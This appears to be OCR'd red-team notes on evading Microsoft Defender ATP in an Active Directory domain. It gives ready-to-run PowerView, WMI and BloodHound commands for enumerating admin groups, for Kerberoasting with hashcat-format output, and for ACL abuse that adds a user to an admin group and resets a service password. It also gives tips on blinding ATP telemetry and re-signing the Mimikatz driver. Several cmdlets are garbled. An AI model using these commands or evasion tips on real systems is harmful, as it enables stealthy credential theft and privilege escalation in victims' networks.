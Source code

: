 Userland Persistence and AMSI Bypass via Component Object Model Hijacking.

ATP can’t be stopped or uninstalled, even with a SYSTEM account, because of Protected Process Light.

But it’s possible to block ATP communications via DiagTrack Service. Hijack DLL to remove PPL protection? (personal note: not sure)

Mimikatz driver is registered as malicious now, but you change the service name and re-sign it.

It’s possible to block all Windows Defender/ATP Comms via Firewall (1 page 42)

**Not detected**: Using LDAP/Powerview to gather computers/users.

    Get-NetComputer -verbose -domain prod.local
    Get-NetGroupMember -GroupName "Enterprise Admins" -Domain dev.local -verbose
    

**Not detected**: Enumeration via WMI Local Name Space

Domain User Accounts:

    Get-WmiObject -Class Win32_UserAccount -Filter "Domain='dev' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired, PasswordChangeable, Description, SID
    

Domain Groups:

    Get-ComInstance -ClassName Win32_Group -Filter "Domain = 'dev' AND Name like '%Admin%'"
    

Domain Group User Memberships:

    Get-CimInstance -ClassName Win32_Group -Filter "Domain = 'dev' AND Name='Enterprise Admins'" | Get-CimAssociatedInstance - Association Win32_GroupUser
    
    Get-CimInstance -ClassName Win32_Group -Filter "Domain = 'dev' AND Name='Microsoft Advanced Threat Analytics Administrator'" | Get-CimAssociatedInstance - Association Win32_GroupUser
    

**Not detected**: SPN Enumeration & Kerberoasting

    Get-NetComputer -SPN mssql*
    Get-NetUser -SPN | Get-SPNTicket -OutputFormat Hashcat
    

**Not detected**: Silver ticket

The golden ticket is a forged TGT, Silver ticket is a forged TGS. No DC server contacted.

**Not detected**: Enumerating AD Access Control Entries

    Invoke-BloodHound -CollectionMethod ACL -ExcludeDC
    

**Not detected**: Escalation via Selective AD ACL Abuse

    >Add-DomainGroupMember -Identity sql01admins -Members edwardabbey
    
    > Set-DomainUserPassword -Identity webservice -AccountPassword$Password
    

Over-Pass-The-Hash is detected using KRBTGT NTLM hash.

